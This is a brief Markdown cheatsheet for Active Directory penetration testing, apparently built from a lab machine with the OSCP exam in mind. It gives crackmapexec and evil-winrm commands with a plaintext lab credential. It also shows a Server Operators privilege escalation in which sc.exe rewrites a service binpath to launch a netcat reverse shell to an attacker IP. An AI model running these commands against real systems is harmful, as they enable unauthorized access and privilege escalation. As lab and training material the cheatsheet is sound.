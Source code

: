 ```yaml
---
title : "AD-Cheatsheet"
author: imdang 🤞🤞
date: 2024-12-18 11:30:00 +0800
categories: [Cheatsheet]
tags: [crackmapexec, winrm, AD, Active Directory, OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### crackmapexec 

- Check smb share

```shell
crackmapexec smb 10.10.11.108 --shares
crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
```

- Check winrm

```shell
crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

# Exploit

### WinRM

```shell
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

# Privilege Escalation 

### See priv

```shell
whoami /priv
```

## Group priv

### Server Operators 

- Can edit and run service

Tham khảo: https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

```shell
PS C:\prog> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\prog\nc64.exe -e cmd 10.10.14.3 443"
[SC] ChangeServiceConfig SUCCESS
PS C:\prog> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.

PS C:\prog> sc.exe start VSS
```


# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
